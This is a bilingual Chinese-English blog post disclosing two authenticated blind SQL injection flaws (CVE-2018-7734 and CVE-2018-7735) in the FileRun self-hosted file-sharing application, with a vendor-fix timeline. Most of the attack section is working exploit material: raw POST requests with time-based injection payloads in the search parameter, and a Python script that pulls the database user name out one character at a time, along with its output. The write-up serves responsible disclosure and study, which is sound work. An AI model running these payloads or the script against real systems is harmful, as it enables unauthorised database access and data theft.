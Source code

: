 ```yaml
---
layout: post
title: FileRun <= 2017.09.25 Blind SQLi
categories: articles
---
```


<h1 align="center">{{ page.title }}</h1>
<p align="right" class="date">{{ page.date | date_to_string }} - scanf</p>

## 0x00 Preface

&nbsp;&nbsp;&nbsp;在内部分享中需要用到私有的云盘服务,一番寻找之后发现FileRun是个不错的应用程序.FileRun允许我们自己搭建云存储，方便我们的照片，视频等文件更好的分享和存储.
&nbsp;&nbsp;&nbsp;Sometimes team private file sharing need use file sharing web application.I noticed FileRun is a great application,This application allows us to access our files anywhere through self-hosted secure cloud storage.

## 0x01 How To Find The Vulnerability

&nbsp;&nbsp;&nbsp;需要我们以`superuser`登录后台

These vulnerabilitys was found after the authentication. After we logged in as `superuser`.

### SQL1

控制面板——>Admin——>用户——>快速搜索,这样将会发送一个POST请求。

go to control panel——>Admin——>user——>search,will generate a POST request to the server.

```
POST /?module=users&section=cpanel&page=list HTTP/1.1
Host: target.com
Content-Length: 20
Origin: http://target.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Referer: http://target.com/?module=cpanel&_popup_id=popups_1
Accept-Language: zh-CN,zh;q=0.9
Cookie: __cfduid=d7455062d8788785c8b64d8dfef5a7f041513411013; language=chinese; FileRunSID=e578cd49697ef564ed0979bde9d67dcf
Connection: close

limit=50&search=aaaa
```

我注意到search参数容易受到SQL注入的影响,通过传入aaaa' 服务器返回了一个500的响应状态:

I notice that the search parameter might be vulnerable to SQL Injection,I injected a single quote after the value (example:aaaa'),examined the server response error:

然后构造了基于sleep函数延时的payload:

Use MySQL's delay function sleep () to testing.

<img src="https://i.loli.net/2018/11/30/5c01504c70061.png">

```
'xor(sleep(5))or'
```

结果如下

<img src="https://i.loli.net/2018/11/30/5c015098123ba.png">

然后使用Blind SQL注入技术来获取select user()数据验证脚本如下：

Here I create a simple script to extract current select user()query result using Boolean-based technique.

```
#!/usr/bin/env python
# -*- coding:utf-8 -*-
#__author__ = 'scanf'
import httplib
import time

#add cookies

headers = {'Content-Type': 'application/x-www-form-urlencoded',
           'User-Agent': 'Googlebot/2.1 (+http://www.googlebot.com/bot.html)',
           'Cookie': '__cfduid=d7455062d8788785c8b64d8dfef5a7f041513411013; language=chinese; FileRunSID=e578cd49697ef564ed0979bde9d67dcf',
           #'Cookie' : 'input you cookie',
           }
payloads = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.*'
print '[%s] Start to retrive MySQL User:' % time.strftime('%H:%M:%S', time.localtime())
user = ''
for i in range(1, 15):
        for payload in payloads:
            s = "aaaa'xor(if(ascii(mid(user()from(%s)for(1)))=%s,1,0))or'" % (i, ord(payload))
            s = '''limit=50&search=''' + s
            #url = http://target.com/?module=users&section=cpanel&page=list
            conn = httplib.HTTPConnection('target.com', timeout=30)
            conn.request(method='POST', url='/?module=users&section=cpanel&page=list', body=s,headers=headers)
            start_time = time.time()
            html_doc = conn.getresponse().read()
            conn.close()
            print '.',
            if html_doc.find('uid') > 0:
                user += payload
                print '\n[in progress]', user,
                break
print '\n[Done] MySQL user is %s' % user
```

```
[20:39:20] Start to retrive MySQL User:
. . . . . . 
[in progress] f . . . . . . . . . 
[in progress] fi . . . . . . . . . . . . 
[in progress] fil . . . . . 
[in progress] file . . . . . . . . . . . . . . . . . . 
[in progress] filer . . . . . . . . . . . . . . . . . . . . . 
[in progress] fileru . . . . . . . . . . . . . . 
[in progress] filerun . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
[in progress] filerun@ . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
[in progress] filerun@1 . . .
```

### SQL2

控制面板——>元数据——>快速搜索,输入字符串后将发起一个POST请求:

control panel——>Metadata——>search Same as SQL1,will generate a POST request to the server:

```
POST /?module=metadata&section=cpanel&page=list_filetypes HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://target.com/?module=cpanel&_popup_id=popups_1
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 36
Cookie: __cfduid=df5ddd49a2303cb2e13b6aa8ece2af7b11513411363; FileRunSID=fa163cd088b68ae20c689826e3a70479; language=chinese
Connection: close

limit=50&search=aaa'xor(sleep(2))or'
```

然后超时后响应:

sleep() function is executed:

<img src="https://i.loli.net/2018/11/30/5c0150d5f182e.png">

## timeline

* 2017.12.18 发现漏洞并联系官方 Discover the vulnerability and contact the official
* 2017.12.22 等待官方处理 Waiting for official processing
* 2018.2.13 官方修复2.13并致谢并允许公开 Officially fixed 2.13 and thanks and open for publication
* 2018.3.6 请求cve漏洞编号 Request cve
* 2018.3.7 获得CVE-2018-7734 CVE-2018-7735

cve information：

http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7734
http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7735